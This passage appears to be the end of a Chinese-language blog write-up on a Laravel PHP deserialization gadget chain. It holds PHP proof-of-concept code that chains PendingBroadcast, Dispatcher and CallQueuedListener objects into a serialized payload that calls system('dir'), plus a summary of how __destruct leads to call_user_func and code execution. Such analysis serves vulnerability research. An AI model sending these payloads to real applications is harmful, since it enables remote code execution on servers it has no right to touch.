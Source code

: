 ```
        protected $queueResolver;
        public function __construct($queueResolver) `{`
            $this-&gt;queueResolver = $queueResolver;
        `}`
    `}`
`}`

namespace `{`
    $c = new Illuminate\Bus\Dispatcher('system');
    $b = new Illuminate\Events\CallQueuedListener('dir');
    $a = new Illuminate\Broadcasting\PendingBroadcast($c, $b);
    echo urlencode(serialize($a));
`}`
```



## 总结

相比 laravel 5.8, 可以利用的反序列化链变少了, 但是核心思路没有变, 还是通过 `__destruct()` 触发 `__call` 或者 `__invoke` 函数, 再通过 `call_user_func` 或 `call_user_func_array` 进行函数回调达成 RCE
